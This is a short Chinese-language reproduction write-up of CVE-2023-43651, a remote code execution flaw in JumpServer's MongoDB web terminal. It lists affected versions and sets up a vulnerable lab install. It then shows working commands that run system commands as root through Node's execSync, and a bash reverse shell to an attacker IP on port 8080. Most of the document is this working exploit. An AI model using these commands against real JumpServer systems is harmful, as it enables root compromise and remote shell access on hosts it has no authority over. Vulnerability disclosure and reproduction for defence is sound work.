

# CVE-2023-43651

> **Created by：** A-little-dragon
>
> **Team：** TracelessSec
>
> **漏洞描述：** Jump Server MongoDB远程代码执行漏洞


## 0x01 漏洞描述

经过身份验证的用户可以利用MongoDB会话中的漏洞执行任意命令，成功利用该漏洞的攻击者可获取目标系统上的root权限，最终可实现远程代码执行。

## 0x02 影响范围

在漏洞版本且启用了koko组件。

```json
2.24 <= jumpserverv 2.x <= 2.28.20
jumpserverv 3.x <= 3.6.4
```

## 0x03 环境部署

```bash
# 本次漏洞复现使用jump server v3.1.0环境  下面是一键安装脚本
curl -sSL https://github.com/jumpserver/jumpserver/releases/download/v3.1.0/quick_start.sh | sh
```

# 0x04 漏洞复现

在Web Terminal模块连接数据库，即可在命令行中执行js代码

```bash
test> const { execSync } = require("child_process")
test> console.log(execSync("id; hostname;").toString())
uid=0(root) gid=0(root) groups=0(root)
97eef96eb646
```



**反弹shell**

攻击者本地使用nc监听8080端口  等待受控机的连接

```bash
test> console.log(execSync("bash -i >& /dev/tcp/10.0.100.206/8080 0>&1").toString())
```

回车后 成功拿到shell

